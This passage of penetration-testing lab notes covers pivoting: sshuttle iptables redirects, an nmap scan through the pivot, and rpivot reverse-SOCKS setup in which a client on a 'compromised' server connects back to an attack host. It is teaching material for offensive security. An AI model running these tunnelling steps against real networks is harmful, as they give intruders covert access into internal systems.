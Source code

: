 ```
fw: ip6tables -w -t nat -I PREROUTING 1 -j sshuttle-12300
fw: ip6tables -w -t nat -A sshuttle-12300 -j RETURN -m addrtype --dst-type LOCAL
fw: ip6tables -w -t nat -A sshuttle-12300 -j RETURN --dest ::1/128 -p tcp
fw: iptables -w -t nat -N sshuttle-12300
fw: iptables -w -t nat -F sshuttle-12300
fw: iptables -w -t nat -I OUTPUT 1 -j sshuttle-12300
fw: iptables -w -t nat -I PREROUTING 1 -j sshuttle-12300
fw: iptables -w -t nat -A sshuttle-12300 -j RETURN -m addrtype --dst-type LOCAL
fw: iptables -w -t nat -A sshuttle-12300 -j RETURN --dest 127.0.0.1/32 -p tcp
fw: iptables -w -t nat -A sshuttle-12300 -j REDIRECT --dest 172.16.5.0/32 -p tcp --to-ports 12300
```

With this command, sshuttle creates an entry in our iptables to redirect all traffic to the 172.16.5.0/23 network through the pivot host.

### Traffic Routing through iptables Routes
```
nmap -v -sV -p3389 172.16.5.19 -A -Pn # We can now use any tool directly without using proxychains.
```

## Web Server Pivoting with Rpivot
Rpivot is a reverse SOCKS proxy tool written in Python for SOCKS tunneling. Rpivot binds a machine inside a corporate network to an external server and exposes the client's local port on the server-side. We will take the scenario below, where we have a web server on our internal network (172.16.5.135), and we want to access that using the rpivot proxy.
We can start our rpivot SOCKS proxy server using the below command to allow the client to connect on port 9999 and listen on port 9050 for proxy pivot connections.

```
git clone https://github.com/klsecservices/rpivot.git
```

### Installing Python2.7
```
 sudo apt-get install python2.7
```
### Alternative Installation of Python2.7
```
curl https://pyenv.run | bash
echo 'export PYENV_ROOT="$HOME/.pyenv"' >> ~/.bashrc
echo 'command -v pyenv >/dev/null || export PATH="$PYENV_ROOT/bin:$PATH"' >> ~/.bashrc
echo 'eval "$(pyenv init -)"' >> ~/.bashrc
source ~/.bashrc
pyenv install 2.7
pyenv shell 2.7
```
We can start our rpivot SOCKS proxy server to connect to our client on the compromised Ubuntu server using server.py.

### Running server.py from the Attack Host
```
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
```
Before running client.py we will need to transfer rpivot to the target. We can do this using this SCP command:
### Transferring rpivot to the Target
```
scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```
### Running client.py from Pivot Target
```
ubuntu@WEB01:~/rpivot$ python2.7 client.py --server-ip 10.10.14.18 --server-port 9999

```